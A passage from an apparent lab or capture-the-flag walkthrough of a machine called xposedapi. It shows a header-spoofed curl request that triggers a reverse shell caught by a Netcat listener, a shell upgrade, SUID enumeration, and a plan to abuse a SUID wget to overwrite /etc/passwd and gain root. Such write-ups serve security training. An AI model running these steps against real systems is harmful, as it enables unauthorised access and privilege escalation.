 Reading the delivered source code, it looks like the request to this endpoint should actually be a POST - not a GET. Let's give that a try.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.120.149:13337/restart -H "X-Forwarded-For: localhost"
Restart Successful.
```

The API is reporting that the service has been restarted. If we now look back to our Netcat listener, we have received our reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.149: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.149] 42202
python -c 'import pty; pty.spawn("/bin/bash")'
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ id
id
uid=1000(clumsyadmin) gid=1000(clumsyadmin) groups=1000(clumsyadmin)
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$
```

## Escalation

### SUID Enumeration

We'll start local enumeration by looking at the binaries with the SUID bit set.

```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ find / -perm -u=s -type f 2>/dev/null
<admin/webapp$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/wget
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
```

In this listing, we are very fortunate to find the **/usr/bin/wget** binary, which will make for an easy privilege escalation. The binary's `-O` output option will allow us to overwrite sensitive system files. For a straight-forward example, we can overwrite the **/etc/passwd** file and introduce a new user in the `root` group.
